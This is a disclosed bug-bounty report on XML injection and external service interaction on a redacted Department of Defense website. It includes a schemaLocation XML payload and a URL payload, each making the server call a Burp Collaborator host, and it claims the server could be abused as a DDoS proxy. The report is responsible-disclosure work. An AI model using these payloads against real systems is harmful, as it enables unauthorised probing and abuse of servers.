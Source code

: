 # XML Injection / External Service Interaction (HTTP/DNS) On https://█████████.mil

## Report Details
- **Report ID**: 1150799
- **URL**: https://hackerone.com/reports/1150799
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-04-05T20:56:26.655Z
- **Disclosed**: 2021-06-15T19:30:12.935Z

## Reporter
- **Username**: fiveguyslover
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Greetings, I found on one of your sites an XML Injection + External service Interaction (DNS/HTTP)
Link of the vulnerable file : https://█████.mil/██████████
Payload XML Injection : 
```
<fkpxmlns="http://a.b/"xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"xsi:schemaLocation="http://a.b/http://wiiyjpk3neg58qeu4vb5j8vpcgi86x.burpcollaborator.net/fkp.xsd">fkp</fkp>
```
(please change the link of burp collaborator and + URL encode the payload)

#How to reproduce

█████
(I cut the video because the reception time is 30-40 seconds, it is not very relevant)

here is another payload that works, without XML : 

```
http://hzk9we4fcukbidprbvxdhw5iv914pudl0bo0.burpcollaborator.net/?setWarningMsg
```
(please change the link of burp collaborator)
it is also necessary to wait a little, possibly one minute.

all the ips I receive are from ███.

if you need help, don't hesitate.
fiveguyslover.

## Impact

XML Injection + We can use the weakness as a attack proxy to DDOS all Internal/external web conatiners, also could be amplified too

## System Host(s)
██████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Link of the vulnerable file : https://██████.mil/█████████

Payload XML Injection : 
```
<fkpxmlns="http://a.b/"xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"xsi:schemaLocation="http://a.b/http://wiiyjpk3neg58qeu4vb5j8vpcgi86x.burpcollaborator.net/fkp.xsd">fkp</fkp>
```
(please change the link of burp collaborator and + URL encode the payload)

here is another payload that works, without XML : 

```
http://hzk9we4fcukbidprbvxdhw5iv914pudl0bo0.burpcollaborator.net/?setWarningMsg
```

POC Attached

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
